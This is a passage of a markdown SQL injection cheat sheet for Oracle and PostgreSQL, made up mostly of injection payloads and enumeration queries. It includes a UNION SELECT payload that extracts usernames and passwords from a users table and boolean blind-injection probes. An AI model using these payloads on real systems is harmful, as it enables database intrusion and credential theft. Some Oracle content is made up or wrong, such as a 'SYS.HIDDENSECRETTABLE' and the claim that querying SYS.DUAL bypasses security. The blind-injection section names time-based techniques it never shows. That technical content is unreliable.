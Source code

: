 ### **3.3 Accessing Hidden Tables**

```sql
SELECT * FROM SYS.HIDDENSECRETTABLE;
```

Oracle uses `SYS` schema for system-level tables.

### **3.4 Extracting Data**

```sql
' UNION SELECT null, username, password FROM users --
```

### **3.5 Oracle Specific Injection for System Tables**

You can use `SYS.DUAL` to bypass security restrictions:

```sql
SELECT * FROM SYS.DUAL;
```

---

## **4. PostgreSQL Specific SQL Injection**

### **4.1 Retrieving Database Information**

PostgreSQL stores system information in `pg_catalog`:

```sql
SELECT current_database();  -- Get current database
SELECT table_name FROM information_schema.tables;  -- List all tables
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';  -- Get columns of users table
```

### **4.2 PostgreSQL Functions**

- `pg_user` – Retrieves user information.

```sql
  SELECT * FROM pg_user;
```

- `version()` – Get PostgreSQL version:

```sql
SELECT version();
```

### **4.3 Blind SQL Injection (PostgreSQL)**

PostgreSQL supports error-based and time-based techniques for blind injections:

```sql
' AND 1=1 --  -- Always true
' AND 1=2 --  -- Always false
```
